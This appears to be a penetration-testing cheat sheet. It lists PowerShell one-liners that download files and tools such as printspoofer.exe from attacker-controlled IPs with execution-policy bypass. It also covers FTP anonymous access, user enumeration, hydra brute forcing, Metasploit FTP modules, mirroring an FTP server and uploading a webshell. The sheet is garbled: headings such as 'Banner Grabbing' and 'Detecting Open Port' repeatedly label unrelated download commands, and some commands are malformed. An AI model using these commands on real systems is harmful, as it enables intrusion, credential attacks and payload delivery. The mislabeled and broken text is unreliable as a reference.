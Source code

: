 USING POWERSHELL - 
------------------------------------------------------------------------------------------------------------------


#### Detecting Open Port
	
     powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\demo.txt')

**Nmap Scripts**

       powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://192.168.1.143/1.txt' -Destination 'c:\temp\1.txt'"

**Banner Grabbing**
	
        $webClient.DownloadFile('http://192.168.1.143:80/1.txt','c:\temp\1.txt')

**Banner Grabbing**
	
        iwr -uri http://192.168.45.240/printspoofer.exe -Outfile printspoofer.exe

**Banner Grabbing**
	
        powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143:80/1.txt','C:\Users\public\1.txt')

**Banner Grabbing**
	
        powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143/1.txt','C:\temp\1.txt')"

**Banner Grabbing**
	
        echo IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143:80/1.txt','C:\Users\public\1.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile

**Banner Grabbing**
	
        powershell.exe -c wget "http://10.10.14.17/1.txt" -outfile "c:\temp\1.txt"

**Banner Grabbing**
	
        powershell.exe -c "curl.exe http://192.168.1.143:80/1.txt c:\temp\1.txt"	

**Banner Grabbing**
	
        powershell.exe Invoke-RestMethod -Uri "http://192.168.1.143/1.txt" -OutFile "c:\temp\1.txt"

**Banner Grabbing**
	
        powershell.exe Invoke-webRequest -Uri "http://192.168.1.143/1.txt" -OutFile "c:\temp\1.txt"















 
#### Anonymous Authentication manually
````
      iwr -uri http://192.168.45.240/printspoofer.exe -Outfile printspoofer.exe
````
#provide anonymous as username

#provide any passowrd
	
## FTP client commands

  
    Command 								    	          Description

	bye or close or quit						            Terminates an FTP connection.

	cd 							                            Changes the current working directory on the FTP host server.

	cwd									            Changes the current directory to the specified remote directory.

	dir							                            Requests a directory of files uploaded or available for download.
	
	get				                                                    Downloads a single file.

	ls										    Requests a list of file names uploaded or available for download.

	mget								            Interactively downloads multiple files.

	mput								            Interactively uploads multiple files.

	put								                    Uploads a single file.

	pwd									            Queries the current working directory.

	ren									            Renames or moves a file.
 
	site						                                   Executes a site-specific command.
	
	open									   Starts an FTP connection.

	pasv										    Tells the server to enter passive mode, in which the server waits for the client to establish a connection rather than attempting to connect to a port the client specifies.

#### Ftp User enumeration with github script

`````	
     https://raw.githubusercontent.com/pentestmonkey/ftp-user-enum/master/ftp-user-enum.pl
`````
         ftp-user-enum.pl -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -t $ip
`````	
     ftp-user-enum.pl -M iu -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -t $ip
`````
### Brute Forcing with hydra

	     hydra -l ftp -P password.txt ftp://$ip 
	
	     hydra -L username.txt -P password.txt ftp://$ip
	
## Metasploit Modules for FTP service

#### 1. auxiliary/scanner/ftp/anonymous
 #### 2. auxiliary/scanner/ftp/ftp_version
#### 3. auxiliary/scanner/ftp/ftp_login
#### 4. auxiliary/scanner/ftp/konica_ftp_traversal

	$  msfconsole
	
      1.Metasploit auxilliary for ftp anonymous check :

      msf6 > use auxiliary/scanner/ftp/anonymous

      msf6 auxiliary(scanner/ftp/anonymous) > set RHOSTS $ip

      msf6 auxiliary(scanner/ftp/anonymous) > run
      
  **Download All File from FTP**
    
        wget -m ftp://anonymous:anonymous@$ip
    
        wget -m --no-passive ftp://anonymous:anonymous@$ip
    
   **Uploading a binary or webshell**
      
         ftp> binary
         ftp> put file/name
      
   **Reference**
	
    	https://raw.githubusercontent.com/pentestmonkey/ftp-user-enum/master/ftp-user-enum.pl
